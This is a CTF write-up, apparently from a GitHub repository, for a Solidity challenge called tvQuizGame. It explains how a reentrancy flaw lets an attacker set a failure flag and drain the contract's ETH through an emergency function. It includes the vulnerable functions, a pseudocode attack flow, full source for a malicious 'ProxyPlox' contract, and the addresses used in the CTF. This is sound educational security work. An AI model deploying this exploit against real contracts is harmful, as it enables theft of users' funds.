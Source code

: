 # tvQuizGame
In this task we’re challenged with stealing all the ETH from the contract. We’re provided with the address of the contract and its source code and ABI. 

The contract has some interesting functions starting with:

```js
function inCaseOfEmergency() external {
    require(isContractInFailure == true);
    require(msg.sender.send(address(this).balance) == true);
}
```

If we manage to set “isContractInFailure” to “true” we’ll be able to send all ETH from the contract to ourselves. 

Variable “isContractInFailure” is set in the following function:

```js
function terminateTheContest() public {
    require(isCompetitionOpen == true);
    checkWinners();
    fillInTheAccounts();
    if(payWinnersProcess()){
        isCompetitionOpen = false;
    } else {
        isContractInFailure = true;
    }
}
```

So, we need to get the function “payWinnersProcess” to return “false”. 

```js
function payWinnersProcess() internal returns(bool) {
    uint256 i = nextTransaction;
    while(i < winnerAddresses.length) {
        if(!winnerAddresses[i].send(wonAmount[winnerAddresses[i]])) return false;
        i++;
    }
    nextTransaction = i;
    return true;
}
```
We can see that “payWinnersProcess” returns “false” when there is an error sending ETH to some address. Error can happen if there is not enough ETH in the contract and probably under some other conditions (me noob much). 

Trying to apply Reentrancy attack to this contract we notice that during “payWinnersProcess” function it is still possible to register to the guessing game using “tryYourLuck”:

```js
function tryYourLuck(uint8 submittedAnswer) public {
    require(now < creationTimestamp + 15 minutes);
    participantAddresses.push(msg.sender);
    responseSubmitted[msg.sender] = submittedAnswer;
}
```

The only requirement to register for the game is time being in range of 15 minutes since the contract creation. 
So, the flow of reentrancy attack using malicious contract might look like this:

```js
maliciousContract:
  TVQuizTime.tryYourLuck(12);
  TVQuizTime.terminateTheContest();

TVQuizTime:
  checkWinners();
  fillInTheAccounts();
  payWinnersProccess(); // calls the fallback function in maliciousContract upon sending ETH

maliciousContract:
  fallback():
    TVQuizTime.tryYourLuck(12);
    TVQuizTime.terminateTheContest();

TVQuizGame:
  checkWinners();
  fillInTheAccounts();
  payWinnersProccess(); // calls the fallback function in maliciousContract upon sending ETH

maliciousContract:
  fallback():
    TVQuizTime.tryYourLuck(12);
    TVQuizTime.terminateTheContest();

// and so on until TVQuizTime balance exhaustion 
```

Upon balance exhaustion in the TVQuizTime contract there still might be some ETH left on the balance, just not enough to send to the winners. But since we triggered the error and set “isContractInFailure” to “true”, we can get the remaining ETH using “inCaseOfEmergency”. 

Source code of malicious contract:

```js
pragma solidity ^0.6.4;

contract TVQuizTime {
    function tryYourLuck(uint8) public {}
    function terminateTheContest() public {}
}

contract ProxyPlox {
    
    address payable private contractOwner;
    
    constructor() public payable {
        contractOwner = msg.sender;
    }
    
    function callTryLuck(address _address) public {
        TVQuizTime(_address).tryYourLuck(12);
    }
    
    function callTerminate(address _address) public {
        TVQuizTime(_address).terminateTheContest();
    }
    
    fallback() external payable {
        callTryLuck(msg.sender);
        callTerminate(msg.sender);
    }
    
    function startDis(address _address) public {
        if (msg.sender == contractOwner) {
            callTryLuck(_address);
            callTerminate(_address);
        }
    }
    
    function getBack() public {
        contractOwner.transfer(address(this).balance);
    }
}
```

Screenshot of deploying malicious contract and calling “inCaseOfEmergency”:

![](pictures/2021-03-27-00-03-19.png)

Getting flag:

![](pictures/2021-03-27-00-03-28.png)

Screenshots above were taken during ctf-after-hours. 
The address of TVQuizTime during CTF (we hope not mistaken):
0x5827254ae3cab02f2603017ccd65074bc6c9ad20
The address of ProxyPlox contract during CTF:
0x9C0C915AD3B9A86DCa25b27dfD7Ced685ff9a157
The address of wallet calling “inCaseOfEmergency” during CTF:
0x7ceA06e09d0EcB782bc437fd45429dA5076A0f5A
